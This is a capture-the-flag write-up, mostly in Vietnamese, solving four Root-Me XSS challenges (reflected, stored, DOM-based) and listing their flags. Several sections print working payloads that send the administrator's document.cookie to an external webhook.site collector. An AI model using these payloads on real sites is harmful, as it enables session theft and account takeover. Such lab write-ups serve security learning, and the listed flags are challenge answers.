 # XSS-Reflected
### Challenge
Link: http://challenge01.root-me.org/web-client/ch26/
### Hint
> alert(’xtra stupid security’);

> Find a way to steal the administrator’s cookie.
Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
### Solution
Đầu tiên, em kiểm tra các tính năng của trang web thì thấy ở trang `contact` có một form cho phép nhập thông tin.
Tuy nhiên lại có dòng:
>Like most businesses, nobody actually checks any of this feedback, but in order to look like we care, we have made a totally useless form you can fill out.`

Nghĩa là form này vô dụng. Em kiểm tra bằng cách nhập thông tin như sau:

![](https://i.imgur.com/j48yzGR.png)

Nhấn send thì không thấy có gì xảy ra, lại có đoạn 
>We have automatically printed out your feedback and burned it to provide our offices with warmth during the harsh Nordic winter
(seriously, nobody wants to read your rambling).`

Vậy nên form này vô dụng thật.
Để ý URL, em thấy có tham số `p` nhận giá trị là trang được truy cập tới. Thử thay đổi giá trị của `p` thì em được chuyển hướng tới trang sau:

![](https://i.imgur.com/CsdmpAT.png)

Thay đổi giá trị của `p` thành `' onclick='alert(1)` được URL encode thì được kết quả như sau:

![](https://i.imgur.com/qReFsgW.png)

Vậy ta có thể khai thác XSS từ đây.
Để lấy được cookie của admin, em fetch đến [Webhook](https://webhook.site/#!/16dfa276-986b-4d49-9ae0-8cca659780d1/a64570e2-7695-4bcc-ab94-fe084f9114b7/1) với payload sau:
>autofocus onfocus='fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?cookie=${document.cookie}`) 

![](https://i.imgur.com/z7mwHeC.png)

Em đã chuyển hướng được đến trang [Webhook](https://webhook.site/#!/16dfa276-986b-4d49-9ae0-8cca659780d1/a64570e2-7695-4bcc-ab94-fe084f9114b7/1). Giờ em chỉ cần chọn`Report to administrator` rồi đợi kết quả từ Webhook.

![](https://i.imgur.com/RF3vLEQ.png)

### Flag
`r3fL3ct3D_XsS_fTw`
___
# XSS - Stored 1
### Challenge
Link: http://challenge01.root-me.org/web-client/ch18/
### Hint 
> So easy to sploit

> Steal the administrator session cookie and use it to validate this chall.
### Solution
Vào challenge, xuất hiện một trang cho phép nhập các thông tin `title` và `message`, sau khi nhập và nhấn `send` thì những thông tin này sẽ được lưu lại và hiển thị với người dùng.
Em thử nhập vào ô `messsage` đoạn `<script>alert(1)</script>` thì thấy dòng này được thực thi như sau:

![](https://i.imgur.com/XCLxm38.png)

Vậy trang này dính Stored XSS. Để lấy được cookie của admin, em nhập `message` như sau: 
><script>fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?${document.cookie}`)</script>

Sau đó sang trang [Webhook](https://) đợi, em nhận được `ADMIN_COOKIE`. Theo statement thì cookie này cũng chính là flag.

![](https://i.imgur.com/DAwz6CJ.png)

### Flag
`NkI9qe4cdLIO2P7MIsWS8ofD6`
___
# XSS - Stored 2
### Challenge
Link: http://challenge01.root-me.org/web-client/ch19/
### Hint
> Steal the administrator session’s cookie and go in the admin section.
### Solution
Vào challenge, xuất hiện một trang cho phép nhập các thông tin `title` và `message`, sau khi nhập và nhấn `send` thì những thông tin này sẽ được lưu lại và hiển thị với người dùng.
Em thử nhập vào ô `messsage` đoạn `<script>alert(1)</script>`, nhưng không như bài trước, script này không được thực thi T_T

![](https://i.imgur.com/WjmnotZ.png)

Mặt khác, comment hiển thị có thêm `status:invite`, nằm trong thẻ `<i>` ở source code.
Vào Burpsuit, em thấy ở request có cookie `status=invite`. Thử thay đổi value của cookie `status` rồi send request thì thấy class của thẻ `<i>` được trả về cũng thay đổi theo.

![](https://i.imgur.com/qoZ2pQm.png)

Vậy ta có thể khai thác XSS từ phần cookie này.
Tương tự các bài trước, em tạo payload fetch đến Webhook để admin truy cập vào. Thay đổi value Cookie staus thành payload này. Khi send request, script chèn vào sẽ được thực thi. 

![](https://i.imgur.com/hVxNuI1.png)

Vào Webhook đợi admin truy cập, em có được cookie của admin.

![](https://i.imgur.com/zvxTMqJ.png)

Theo Statement, em dùng cookie có được truy cập vào `admin section` để lấy flag.

![](https://i.imgur.com/nXPKCaG.png)

### Flag
`E5HKEGyCXQVsYaehaqeJs0AfV`
___
# XSS DOM Based - Introduction
### Challenge
Link: http://challenge01.root-me.org/web-client/ch32/
### Hint
> An introduction to DOM Based Cross Site Scripting attacks

> Steal the admin’s session cookie.

### Solution
Vào challenge, em nhập vào số bất kỳ và đương nhiên, kết quả đều sai.

![](https://i.imgur.com/u40CbCk.png)

Xem source code em thấy đoạn script sau:
```
<script>
var random = Math.random() * (99);
var number = '13';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>
```

Theo đoạn mã này thì kể cả em có may mắn nhập số trùng với số của hàm `random()` cũng sẽ không nhận được flag.
Em để ý thấy số mình nhập vào sẽ được truyền vào biến number. Vì vậy em thử nhập thêm đoạn mã sau vào URL: `%27;%20alert(1);%20//` và được kết quả:

    <script>
    var random = Math.random() * (99);
    var number = ''; alert(1); //';
    if(random == number) {
        document.getElementById('state').style.color = 'green';
        document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
    }
    else{
        document.getElementById('state').style.color = 'red';
        document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
    }
    </script>
    
![](https://i.imgur.com/uXfLwhw.png)

Để lấy được cookie của admin, em tạo link fetch đến Webhook như sau:
> %27;%20fetch(`https://webhook.site/16dfa276-986b-4d49-9ae0-8cca659780d1?${document.cookie}`)//
Em thử thì thấy chuyển đến Webhook thành công nên nhập link trên vào trang `/contact.php`.

![](https://i.imgur.com/ruybTIv.png)

Sau đó, ở Webhook, em đã nhận được flag.
### Flag


